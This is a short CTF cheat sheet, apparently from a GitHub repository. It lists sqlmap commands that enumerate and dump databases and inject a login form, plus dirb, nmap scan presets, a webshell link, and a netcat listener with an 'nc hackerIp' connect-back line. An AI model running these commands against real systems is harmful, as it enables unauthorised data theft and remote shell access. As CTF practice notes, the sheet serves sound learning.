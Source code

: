 # ctf

sqlmap -u url --dbs


sqlmap - u url --dbs blog --tables


sqlmap -u url --dbs blog --tables users --columns

sqlmap -u url -D database -T table --dump

sqlmap -u url -D database --dump-all --batch


sqlmap -u url --dbs --batch


sqlmap -u http://site-to-test.com/admin/index.php –data=”user=admin&password=admin” -p user


–data = POST data


dirb url

netcat -lnvp 9191 


nc hackerIp 9191



https://resources.infosecinstitute.com/topic/important-sqlmap-commands/

cp file newName ========= le nouveau local c'est ou tu est positionner 

https://www.kali.org/tools/webshells/



NMAP


nmap -sV -O 192.168.100.101  ---> service version  - operating sys


nmap -T4 -A -v 192.168.100.101   -->Intense scan


nmap -sS -sU -T4 -A -v    -->Intense scan plus UDP


nmap -T4 -A -v -Pn   --->Intense scan, no ping


nmap -sn    ---> Ping scan


nmap -T4 -F   -->quiq scan


nmap -sV -T4 -O -F --version-light   --> quiq scan plus


nmap -sn --traceroute -->quiq traceroute


nmap -sS -sU -T4 -A -v -PE -PP -PS80,443 -PA3389 -PU40125 -PY -g 53 --script "default or (discovery and safe)"   -->slow comprehensive scan

